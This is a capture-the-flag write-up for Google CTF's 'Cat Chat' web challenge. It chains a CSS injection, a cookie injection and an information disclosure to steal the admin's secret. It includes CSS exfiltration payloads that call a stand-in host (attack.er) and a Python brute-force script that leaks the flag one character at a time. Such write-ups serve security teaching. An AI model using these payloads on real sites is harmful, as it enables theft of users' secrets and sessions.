








### Challenge: Cat Chat

### Description
You discover this cat enthusiast chat app, but the annoying thing about it is that you're always banned when you start talking about dogs. Maybe if you would somehow get to know the admin's password, you could fix that.  

[https://cat-chat.web.ctfcompetition.com/](https://cat-chat.web.ctfcompetition.com/)  

### First look
When opening the challenge URL we can quickly make a few observations
- Its a chat application
- We are assigned a random nickname
- Redirected URL is having a unique chat room id
- Rules section states that `Dog talk` can get you banned
- `/name new_nick` can be used to change your nickname
- `/report` can be used to inform admin about users doing `Dog talk` and get them banned
- Lastly we also have source code for `server.js` provided  




### Goal Assumptions
From the challenge description we can make out that we need to get hold of admin's password/session. Looking at the application, we can make our first guess that we have to perform client side attack like XSS in order to get session of admin user.
So with this goal in mind let's start with the assessment of the application.

### Bug hunting

#### Getting Familiar with the app

Let's execute chat room commands  
Execution of `/name hacker` results in  



Execution of `/report` results in



This is definitely interesting. When we report to admin, admin joins the chat room. Now this challenge is giving more feels for XSS.

Lets try to ban someone using `dog talks`. To do this we can open a normal window and an incognito window in same browser. In both visit the same chat room. In incognito window, first send `/report` command to make admin join chat room. Then in same window, send `dog` as message.
It will look something like below. (*Window in right is the incognito one*)  



We also notice that when a person gets banned he can no longer send messages to the chat room. There is also a change in color for the nickname of user who got banned.

#### Looking into Page Source

Let's look at the page source. We can see there is a comment describing additional `Admin commands` for chat room.  

**Admin commands**:
- `/secret asdfg` - Sets the admin password (*that we have to steal*) to be sent to the server with each command for authentication. It's enough to set it once a year, so no need to issue a /secret command every time you open a chat room.
- `/ban UserName` - Bans the user with UserName from the chat (requires the correct admin password to be set) (*meaning we cannot directly ban someone, -_-*)  

Other than this comment we can see there is `catchat.js` is also used here. We will take a look at this afterwards first let's see how `/secret` and `/ban` commands are behaving in the chat room.

#### Checking behavior of admin commands
Lets execute both in our chat room to see how they work.  
Execution of `/secret 1g0ts3cr3t5` results in  

  

Okay, so it changes our secret and prints masked secret like ****** on the webpage. But if you look in inspect element, you see your new secret `1g0ts3cr3t5` as value of attribute `data-secret`.  



This is an interesting test case, we can check if other users in the same room can see this message. But sadly, as we can see below, they cannot.  

  

But still it's an **information disclosure**, we might need use of afterwards.

#### Taking a look at server
We also have access to `server.js`, from there we can see how these commands are handled. I will break down important parts of the source code in order to explain it better :)  

**Some libraries imported**
```
const http = require('http');
const express = require('express');
const cookieParser = require('cookie-parser')
const uuidv4 = require('uuid/v4');
const SSEClient = require('sse').Client;
const admin = require('./admin');
const pubsub = require('@google-cloud/pubsub')();
```
Oh admin.js *hmm* but we don't have access to it.

**Oh Authorization Check** (*Interesting*)
```
// Check if user is admin based on the 'flag' cookie, and set the 'admin' flag on the request object
app.use(admin.middleware);
```
As we don't have access to `admin.js` the comment helps us understand that when admin sends a request to server it will contain a `flag` cookie whose value will be checked by `admin.middleware`. If the `flag` value is correct `admin` flag will be set on the request object to be used later in the code.

**Banned status check**
```
// Check if banned
app.use(function(req, res, next) {
  if (req.cookies.banned) {
    res.sendStatus(403);
    res.end();
  } else {
    next();
  }
});
```
So if a set `banned` cookie is found in our browser session we will get a `403` status.

**Commands handling** (*part we were waiting for*)
```
// Process incoming messages
app.all(roomPath + '/send', async function(req, res) {
  let room = req.params.room, {msg, name} = req.query, response = {}, arg;
  console.log(`${room} <-- (${name}):`, msg)
  if (!(req.headers.referer || '').replace(/^https?:\/\//, '').startsWith(req.headers.host)) {
    response = {type: "error", error: 'CSRF protection error'};
  } else if (msg[0] != '/') {
    broadcast(room, {type: 'msg', name, msg});
  } else {
    switch (msg.match(/^\/[^ ]*/)[0]) {
      case '/name':
        if (!(arg = msg.match(/\/name (.+)/))) break;
        response = {type: 'rename', name: arg[1]};
        broadcast(room, {type: 'name', name: arg[1], old: name});
      case '/ban':
        if (!(arg = msg.match(/\/ban (.+)/))) break;
        if (!req.admin) break;
        broadcast(room, {type: 'ban', name: arg[1]});
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
      case '/report':
        if (!(arg = msg.match(/\/report (.+)/))) break;
        var ip = req.headers['x-forwarded-for'];
        ip = ip ? ip.split(',')[0] : req.connection.remoteAddress;
        response = await admin.report(arg[1], ip, `https://${req.headers.host}/room/${room}/`);
    }
  }
  console.log(`${room} --> (${name}):`, response)
  res.json(response);
  res.status(200);
  res.end();
});
```
Here is the breakdown of the code
- All requests hitting `/send` are handled by this
- Has a CSRF check that if `Referer` header is not same as request `host` then throw a CSRF protection error
- If `msg` does not have any command broadcast the message in the chat room
- `/name` broadcast the name changing instruction to the room (*hmm ok*)
- `/ban` checks for `req.admin` flag (*It is set in above code if right flag cookie is found in request*) and broadcast user banning instruction to the room (*hmm ok*)
- `/secret` (*Whoa!*) if you see carefully here, you will notice there is a **cookie injection**. Not sure how we can use this bug to get admin `flag` cookie but we will keep it in mind. (*nice!*)
- `/report` uses `admin.report` function to notify admin. It uses `x-forwarded-for` ip in the function. As we don't know how function is using it, for now I will assume it's for logging purposes.  

Thing to note here is that there is **no input sanitization** in place.
In the end it returns response in json format. (*cool*)  

#### Figuring out client side

There is a lot of code we can read here. But we understand overall functionality so reading important parts should be enough. Now as we are getting XSS style vibes from this challenge let's check if there is any output encoding in place.

**Escape function**
```
let esc = (str) => str.replace(/</g, '&lt;').replace(/>/g, '&gt;').replace(/"/g, '&quot;').replace(/'/g, '&apos;');
```
So there is some sort of output encoding. But its only looking for `<`, `>`, `"` and `'`. Let's find all the entry points if we can inject something.

**Output handling**
```
// Receiving messages
function handle(data) {
  ({
    undefined(data) {},
    error(data) { display(`Something went wrong :/ Check the console for error message.`); console.error(data); },
    name(data) { display(`${esc(data.old)} is now known as ${esc(data.name)}`); },
    rename(data) { localStorage.name = data.name; },
    secret(data) { display(`Successfully changed secret to <span data-secret="${esc(cookie('flag'))}">*****</span>`); },
    msg(data) {
      let you = (data.name == localStorage.name) ? ' (you)' : '';
      if (!you && data.msg == 'Hi all') send('Hi');
      display(`<span data-name="${esc(data.name)}">${esc(data.name)}${you}</span>: <span>${esc(data.msg)}</span>`);
    },
    ban(data) {
      if (data.name == localStorage.name) {
        document.cookie = 'banned=1; Path=/';
        sse.close();
        display(`You have been banned and from now on won't be able to receive and send messages.`);
      } else {
        display(`${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`);
      }
    },
  })[data.type](data);
}
```
Now if we look at this code all the entry points are escaped using `esc()`. So it should be safe right? Well guess again, in `ban()` when user is banned and it `display`s `${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`. Here if you notice carefully, we can do a **css injection** in value of `data-name` attribute because characters like `]`, `}`, `:` and `;` are not escaped. This will be quite useful now.

### Introduction to CSS Injection

For those we don't know much about `css injection`, here is a short intro (*Super-Hackers can surely skip this*). Suppose you have a web page with a code like below.  

```
<html>
  <head></head>
  <body>
    <span secret="1g0ts3cr3t5"></span>
  </body>
</html>
```

Now if we add some carefully crafted css into this code as below.  

```
<html>
  <head></head>
  <body>
    <span secret="1g0ts3cr3t5"></span>
    <style>
      span[secret^=a] {background:url(https://attack.er/a)}
      span[secret^=b] {background:url(https://attack.er/b)}
      span[secret^=c] {background:url(https://attack.er/c)}
      ...
      ...
      span[secret^=z] {background:url(https://attack.er/z)}
      span[secret^=0] {background:url(https://attack.er/0)}
      span[secret^=1] {background:url(https://attack.er/1)}
      ...
      span[secret^=9] {background:url(https://attack.er/9)}
    </style>
  </body>
</html>
```

Here the added css code is checking if there is a `span` with `secret` attribute of value starting with any of the checked characters. If yes, it will fetch background for it from the provided url. Which will cause a request to attackers url, letting him know secrets first character. This payload css only works for first character brute force. But after we attacker knows the first character he can craft a new css payload to brute force the second character by fixing first character in the checks as below.  

```
<html>
  <head></head>
  <body>
    <span secret="1g0ts3cr3t5"></span>
    <style>
      span[secret^=1a] {background:url(https://attack.er/1a)}
      span[secret^=1b] {background:url(https://attack.er/1b)}
      span[secret^=1c] {background:url(https://attack.er/1c)}
      ...
      ...
      span[secret^=1z] {background:url(https://attack.er/1z)}
      span[secret^=10] {background:url(https://attack.er/10)}
      span[secret^=11] {background:url(https://attack.er/11)}
      ...
      span[secret^=19] {background:url(https://attack.er/19)}
    </style>
  </body>
</html>
```

As some may be wondering why are we using this tedious and long css bruteforce when we can steal the secret in one shot by using javascript in css like `{background-url:"javascript:alert(1)"}`. Well sadly it doesn't work in modern browsers anymore.  
So now that we know what `css injection` is, let's craft our strategy.  

### Crafting Exploitation Strategy

Let's revise, we have identified three bugs till now
- CSS injection (*Using crafted nickname, in `data-name` attribute value while a person gets banned*)
- Cookie injection (*When setting `flag` cookie in `/secret` command handling*)
- Information disclosure (*When running `/secret` printing secret value in value of `data-secret` attribute in web page*)

How can we use them to get flag?  
- With `css injection`, we can get any secret character by character from some other user's web page.
- But secret `flag` of admin is not on his web page. But can we force admin to put his secret `flag` on his web page?
- We know that `/secret argument` command allows secret `flag` to be on that users web page. But if we force admin to use this command his secret `flag` will be replace by the `argument`, that is definitely not what we want. So can we make admin use `/secret` command without replacing his secret `flag`?
- Answer is Yes. That is where our cookie injection comes handy.  

Cookie injection resides here `res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');`.  
Here we can inject `dummy; Domain=mybook.com` and in admins browser client `flag` cookie will be set to new value `dummy` but in `mybook.com`'s context. So the `flag` cookie in challenge application will remain unchained for the admin.  

So now our strategy is completed. According to this below will be our payload skeleton.  

```
/name nill] {background:url(/room/room_id_here/send?name=admin&msg=/secret dummy; Domain=mybook.com);}
span[data-secret^=CTF\{] {background:url(/room/room_id_here/send?name=admin&msg=CTF%7b)} [
```

The above name change, after getting banned will inject this css. First url will force admin to run `/secret` with cookie injection `; Domain=mybook.com`. Admin's secret will be on his web page now. Second url will check if secret start with `CTF{`, if yes then it will force admin to send `CTF{` message in our chat room. Now with all this knowledge we can craft the full brute force payload for this challenge. But let's see if we can automate this character by character `flag` leaking process.  

### Automating flag extraction
Here most of the work flows can be automated but `/report` command checks for bots with the help of `grecaptcha`. Well that can also be automated with tools like `selenium` but that will be overkill for this challenge. So below is my partially automated python script.  
Script automates two users. First user's job is to collect the leaking flag character. Second user's job is to inject css payload, get himself banned, re-initiate his session and repeat.  

```
import requests
import string
import sys

# Setting some globals
room = "1970f4b2-4569-4423-8dc9-19a40e746a67" # unique room id from URL
chars = string.ascii_lowercase + string.ascii_uppercase + string.digits + '_' # characters to brute force flag
url = "https://cat-chat.web.ctfcompetition.com/room/" + room + "/"

found_flag = ""

while '}' not in found_flag:
    # Re-initializing session as user gets banned after leaking flag character
    s1 = requests.Session()
    s2 = requests.Session()

    # Referer is updated to avoid CSRF Protection error
    s1.headers.update({'Referer': 'https://cat-chat.web.ctfcompetition.com/'})
    s2.headers.update({'Referer': 'https://cat-chat.web.ctfcompetition.com/'})

    print("[+] Attacking room: " + url)

    # Generating name payload
    name = "nill ] {background:url(/room/" + room + "/send?name=admin&msg=/secret dummy; Domain=mybook.com);} "
    for x in chars:
        concept = "span[data-secret^=CTF\{" + found_flag + x + "] {background:url(/room/" + room + "/send?name=admin&msg=CTF%7b" + found_flag + x + ");} "
        name += concept

    # Testing sanity
    params = {
            'name': 'nill1',
            'msg': 'Hi'
            }

    r = s1.get(url + "send", params=params)
    if r.status_code == 200:
        print("[+] Sanity working!")
    else:
        print("[-] Sanity failed!")
        sys.exit()

    # sending name change
    params = {
            'name': 'nill2',
            'msg': '/name ' + name
            }

    r = s2.get(url + "send", params=params)
    if r.status_code == 200:
        print("[+] name changed")
    else:
        print("[-] name didnt change")
        sys.exit()

    raw_input("Hit enter when you have done /report")

    # Triggering admin with dog talk
    params = {
            'name': name,
            'msg': 'dog'
            }

    r = s2.get(url + "send", params=params)

    found_flag += raw_input("Enter new found flag character: ")[0]
```   

To use the script we will open browser and terminal side by side then run script in terminal. Script will check if website is reachable. Then it will send a name change request with our crafted css injection payload. Then it will ask you to `/report` in the browser. Once you `/report` and admin is in the room, hit enter in terminal to resume the script. Now script will send a `dog` msg by the user whose name changed with css payload. User will get banned and you will see a leaked flag character in the browser. Enter new found flag character in terminal. Repeat the process to get the whole flag as below.  

  

Lastly I want to thank Google for creating this challenge (*It was fun solving this challenge*) and hosting a great CTF.   
